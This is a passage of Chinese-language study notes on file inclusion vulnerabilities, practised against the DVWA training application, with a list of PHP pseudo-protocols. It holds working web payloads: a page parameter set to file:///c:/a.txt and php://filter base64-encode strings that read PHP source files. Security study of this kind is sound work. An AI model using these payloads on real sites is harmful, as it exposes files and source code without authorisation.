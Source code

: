 ```
http://dvwa.com/vulnerabilities/fi/?page=
file:///c:/a.txt
```



![image-20220118095447989](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/04%20%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E%E8%A1%A5%E5%85%85.assets/image-20220118095447989.png)



### 小知识——伪协议

##### file://   访问本地文件系统

##### http://   访问http网址

##### ftp://   访问ftp服务器

##### php://   访问输入输出流

##### zlib://   访问压缩流

##### data://   访问数据流

##### phar://   php归档

##### rar://   访问rar文件

##### ogg://   访问音频

##### expect://   交互式流

【远程访问】



3. **利用php输入输出流伪协议**

```
?page=
php://filter/read=convert.base64-encode/resource=./文件.php

php://filter/read=convert.base64-encode/resource=./index.php
```

![image-20220118095913539](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/04%20%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E%E8%A1%A5%E5%85%85.assets/image-20220118095913539.png)
